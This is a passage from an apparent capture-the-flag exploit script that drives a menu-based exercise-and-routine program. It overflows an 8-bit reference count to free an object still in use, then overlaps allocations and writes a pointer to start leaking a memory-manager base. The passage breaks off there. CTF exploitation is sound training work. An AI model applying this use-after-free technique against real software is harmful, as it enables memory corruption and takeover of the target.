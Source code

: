 ```py
    sla(b"Menu>>", b"1")
    sla(b"Name>>", name)

def list_exercise():
    sla(b"Menu>>", b"2")

def delete_exercise(id):
    sla(b"Menu>>", b"3")
    sla(b"id>>", str(id).encode())

def new_routine(id):
    sla(b"Menu>>", b"4")
    sla(b"0)>>", str(id).encode())

def list_routine():
    sla(b"Menu>>", b"5")

def delete_routine(id):
    sla(b"Menu>>", b"6")
    sla(b"0)>>", str(id).encode())

def set_exercise_to_routine(exercise_id,routine_id):
    sla(b"Menu>>", b"7")
    sla(b"id>>", str(exercise_id).encode())
    sla(b"0)>>", str(routine_id).encode())

def remove_exercise_to_routine(exercise_id,routine_id):
    sla(b"Menu>>", b"8")
    sla(b"0)>>", str(routine_id).encode())
    sla(b"routine>>", str(exercise_id).encode())

def swap_exercise_routine(routine_id, exercise_id_1, exercise_id_2):
    sla(b"Menu>>", b"9")
    sla(b"0)>>", str(routine_id).encode())
    sla(b"routine>>", str(exercise_id_1).encode())
    sla(b"routine>>", str(exercise_id_2).encode())

def view_routine_details(id):
    sla(b"Menu>>", b"10")
    sla(b"0)>>", str(id).encode())


new_exercise(b"aaaaaab") # refcount = 1
new_routine(0)

# overflow refcount to 0
for _ in tqdm(range(255)):
    set_exercise_to_routine(0, 0)
    swap_exercise_routine(0, 0, 0)

set_exercise_to_routine(0, 0) # refcount = 1
delete_routine(0) # refcount = 0, exercise is free-ed

new_routine(1) # day = 1, refcount = 1 (overlap)

new_exercise(b"zz")
new_exercise(b"XXXXXXXXX")
new_exercise(b"QQQQQQQQX")
delete_exercise(0)
set_exercise_to_routine(1, 1) # write a pointer to routine->exercise[0]

# leak custom memory manager base

```
